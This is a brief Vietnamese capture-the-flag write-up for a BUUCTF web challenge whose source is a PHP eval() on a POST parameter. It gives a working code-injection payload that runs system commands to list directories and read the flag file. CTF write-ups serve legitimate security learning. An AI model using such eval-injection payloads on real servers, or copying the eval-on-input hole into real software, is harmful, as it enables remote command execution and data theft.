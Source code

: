 Challenge cho trang web sau, không có gì ngoài `eval($_POST["syc']`;

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/366adec8-bd44-49ce-ae80-5aa545f0bae9)

Theo gợi ý của challenge, Sẽ truyền tham số Syc theo method POST và được xử lý theo hàm eval(). Vậy tiến hành chèn lên tham số Syc. 

Payload: `Syc=system("cd ../../../;ls;cat flag");`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/4b5721e5-8471-4f67-a9c7-ee9fa48aef67)
